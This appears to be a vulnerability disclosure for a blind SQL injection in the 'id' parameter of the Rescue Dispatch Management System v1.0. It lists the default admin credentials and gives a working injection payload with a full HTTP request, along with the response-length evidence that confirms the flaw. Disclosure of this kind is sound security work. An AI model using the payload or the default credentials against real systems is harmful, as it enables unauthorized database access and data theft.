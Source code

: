# Rescue Dispatch Management System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15296/rescue-dispatch-management-system-phpoop-free-source-code.html

Vulnerability File:  /rdms/admin/incidents/manage_incident.php?id=

Vulnerability location: /rdms/admin/incidents/manage_incident.php?id=,id

[+] Payload: /rdms/admin/incidents/manage_incident.php?id=4%27%20and%20length(database())%20=7--+ // Leak place ---> id

Current database name: rdms_db,length is 7

```sql
GET /rdms/admin/incidents/manage_incident.php?id=4%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=hkbchcmaitn0d8enhm4jtdjk9q
Connection: close
```

When length (database ()) = 6, Content-Length: 2169
![image](https://user-images.githubusercontent.com/54017627/170463261-7a780334-3c9c-4aa2-89af-d59c3a21a6bb.png)

![image](https://user-images.githubusercontent.com/54017627/170463012-9f9ba7c4-708f-4dd3-a646-cb8af7cdbb70.png)

When length (database ()) = 7, Content-Length: 2208
![image](https://user-images.githubusercontent.com/54017627/170463176-fded7412-ab09-4bfd-9c93-687fbc449a93.png)

![image](https://user-images.githubusercontent.com/54017627/170462969-da4d2369-827f-4a17-a1c3-c73bf560072d.png)
